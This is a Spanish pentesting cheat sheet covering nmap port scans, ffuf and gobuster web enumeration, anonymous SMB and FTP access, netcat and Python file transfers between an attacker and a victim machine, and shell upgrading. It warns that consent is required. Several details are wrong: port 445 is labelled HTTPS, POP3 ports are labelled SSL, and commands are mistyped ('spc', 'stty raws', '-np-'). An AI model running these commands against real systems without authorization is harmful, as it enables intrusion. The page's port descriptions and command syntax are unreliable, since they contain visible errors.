 ```yaml
---
title: Cheat sheet 🔰
layout: default
has_toc: false
nav_order: 2
has_children: true
---
```


# Pentesting  📕
---
**Pequeña guía sobre las herramientas básicas necesarias para el pentesting.**

## Puertos destacables 🔑
- 21 **(FTP)**  Posible acceso con login anónimo.

- 22 **(SSH)** Si obtenemos las credenciales podemos tener acceso al sistema a través de este servicio.

- 80 **(HTTP)** Servidor web - Enumeración de directorios y búsqueda de vulnerabilidades en el servidor web.

- 143 / 993 **(IMAP)** Ataques de fuerza bruta contra las credenciales del servidor de correo electrónico.

- 110 / 995 **(SSL)** Posibles ataques de fuerza bruta contra las credenciales del servidor POP3.

- 445 **(HTTPS)**: Enumeración de certificados SSL/TLS para revelar posibles debilidades en la configuración de seguridad del servidor.


# Escaneo de Red 💻

---

### Nmap
https://nmap.org/

Es una herramienta de escaneo de puertos y análisis de redes de código abierto que se utiliza para identificar hosts y servicios en una red

{: .warning }
>Busquedas invasivas, no podemos utilizar estas técnicas sin un consentimiento o aprobación por parte del objetivo.


### Escaneo de Hosts:

`nmap -n -sn --reason --min-rate 2000 10.0.0.0/24 -oN hostDiscovery`

### Escaneo de Puertos:
`nmap -np- -Pn --min-rate 5000 -v 10.0.0.0 -oN tcpPort -`

### Escaneo en dDtalle de un puerto:

`nmap -n -p21 -Pn -T5 10.0.0.0 -oN tcpPort21 -sVC`


# Herramientas para Servicios web 🕸️

---

## FFuF 
https://github.com/ffuf/ffuf
Herramienta de fuzzing de código abierto.

{: .warning }
>Busquedas invasivas, no podemos utilizar estas técnicas sin un consentimiento o aprobación por parte del objetivo.



### Enumeración de URL:
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

### Enumeración de Archivos
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt`

### Enumeración de Subdominios
`ffuf -u http://FUZZ.localhost:3000/ -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

---

## Gobuster 
https://github.com/OJ/gobuster

Herramienta de enumeración de directorios y subdominios.

{: .warning }
> Busquedas invasivas, no podemos utilizar estas técnicas sin un consentimiento o aprobación por parte del objetivo.


### Enumeración de URL:
`gobuster -w /usr/share/wordlists/dirb/common.txt dir -u http://domain.com -x php,txt,html,cgi`

### Enumeración de Subdominios:
`gobuster dns -d http://domain.com -w wordlist.txt -i`

### Enumeración de Pantallas Ocultas:
`gobuster vhost -u http://domain.com -w wordlist.txt -v`


# Servicio SMB 🔑

---

Protocolo responsable de transferir datos entre un cliente y un servidor en redes de área local. 

### Enumeracion de recursos compartidos:
`smbclient -L 10.10.10.10 -N`

`rpcclient -U "" -N 10.10.10.10`

### Entrar con login anonimo:
`smbclient //10.10.212.43/Anonymous/`


# FTP 💻

---


### Entrar con usuario anónimo
`ftp 10.0.0.0 21 `

`#Name:anonymous
#Pass: -

# Transferencia de archivos 🗃️

---

## PYTHON

`python3 -m http.server 8000`

`python2 -m SimpleHTTPServer 8000`

`curl http://10.10.10.10/file.php`

## Netcat

### Maquina hacker
`nc -lvnp 4444 < file`

### Maquina Victima

`nc 10.10.10.10 4444 > file`

## SSH

### Archivo
`spc file.txt user@10.10.10.10:/path/`

### Carpeta
`spc -r user@10.10.10.10:/folder /path/folder/`


# Shell Upgrading 🐚

---

`script /dev/null -c bash` 

`cntrl+Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty raws <filas> cols <columnas>`